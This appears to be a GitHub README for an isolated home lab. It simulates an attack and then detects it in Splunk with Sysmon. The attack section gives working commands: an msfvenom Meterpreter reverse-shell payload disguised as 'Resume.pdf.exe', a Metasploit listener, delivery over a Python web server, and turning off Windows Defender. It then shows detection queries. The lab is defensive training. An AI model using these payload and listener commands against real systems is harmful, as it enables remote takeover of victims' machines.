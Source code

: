 🏗️ Quick Overview
Two VMs (Windows 10 + Kali Linux) connected via internal network for controlled malware analysis and SIEM investigation.
Network: 192.168.20.0/24 | Windows: 192.168.20.10 | Kali: 192.168.20.11

🔧 Network Configuration
The Windows machine will utilise the Default NAT setting prior to changing to an internal network to download Splunk enterprise, Sysmon, and download Olaf configuration for Sysmon.

Adapter 1: NAT (internet access)
Adapter 2: Internal Network "intnet"

Set Static IPs on Internal Network:
Windows: 192.168.20.10/24
Kali: 192.168.20.11/24
![image](https://github.com/user-attachments/assets/bfda68a0-3d79-4f02-92ff-57dfb3c2f7be)


🖥️ Windows 10 Setup
1. Install Splunk Enterprise

Download free license version
Install with defaults, access at http://localhost:8000

2. Install Sysmon
powershell# Download Sysmon + Olaf config from GitHub
.\sysmon64.exe -accepteula -i sysmonconfig.xml

4. Configure Splunk Data Input

Create index: endpoint
Head to your Inputs.conf file which will be found in your Splunk>etc>System>local> inputs.conf (If you don't see this file here, copy it over from your 'Default' file)

![image](https://github.com/user-attachments/assets/c63e8e12-651b-49f2-974d-96dbd72daa68)
Input this into your inputs.conf file

5. Create index endpoint
After establishing Splunk is installed, with sysmon added with olaf configuration, head to Splunk via localhost:8000 in Microsoft Edge > Settings > Indexes > New Index > In the Index name field enter "endpoint" and hit save.

6. Change Network Adapter Setting
You can now close and create a snapshot as a baseline, and change the network configuration in Virtualbox via settings > Internal network and ensure the name is the same name used for the Kali Linux machine.

7. Set a static IP Address
Change the network adapter settings and disable DHCP and configure the static IP address to the address we listed earlier. (192.168.20.10)

8. Disable Windows Defender
Turn off Real-time Protection (Settings > Update & Security > Windows Security)

9. Enable RDP
Settings > System > Remote Desktop > Enable


🐧 Kali Linux Setup
Network setup:
Edit connection > Wired connection 1 (Click the cog wheel) > IPv4 settings > Add address 192.168.20.11 - Netmask 24 > Add and then click save. 
To test you are in the same internal network, run the terminal in Linux and ping your Windows machine via the syntax - ping 192.168.20.10 

🎯 Attack Simulation
1. Reconnaissance
nmap -A 192.168.20.10 -Pn
Port 3389 (RDP) should be open

3. Create Payload
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.20.11 lport=4444 -f exe -o Resume.pdf.exe

5. Start Listener
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.20.11
set lport 4444
exploit

7. Host Payload
bash# New terminal
python3 -m http.server 9999

8. Execute on Windows🖥️ 

Browse to 192.168.20.11:9999
Download and run Resume.pdf.exe
Verify meterpreter connection

9. 🐧Establish connection to Windows from Linux machine
Run shell in the mepterpreter to establish a connection to the Windows machine.
   ![image](https://github.com/user-attachments/assets/ad2933e0-fc72-4b32-b9c5-f6e321cb6f7c)

10. Run commands to create telemetry for SIEM
On the Linux machine run these three basic recon commands to 
net user
net localgroup
ipconfig

# 🔍 SOC Analysis in Splunk
Initial Detection
splunk
index=endpoint "Resume.pdf.exe"

Process Chain Analysis

splunk Get ProcessGuid from above, then:

index=endpoint <ProcessGuid>
| table _time,ParentImage,Image,CommandLine

Expected: Resume.pdf.exe → cmd.exe → net user/net localgroup/ipconfig

Threat Hunting Query

splunkindex=endpoint EventCode=1 
| where match(Image, "\\.pdf\\.exe$")
| table _time, Computer, Image, CommandLine

![image](https://github.com/user-attachments/assets/60aa3e0b-979c-40d5-8413-01a37a03eb3b)


✅ Validation

Network: Both VMs can ping each other
Splunk: Sysmon events flowing to endpoint index
Attack: Meterpreter session established
Detection: Malware execution visible in Splunk


⚠️ Lab Safety

Isolated network only - no production access
Take VM snapshots before malware execution
Re-enable Windows Defender after testing


Setup time: ~1 hour | Requires: VirtualBox, Windows 10, Kali Linux VMs
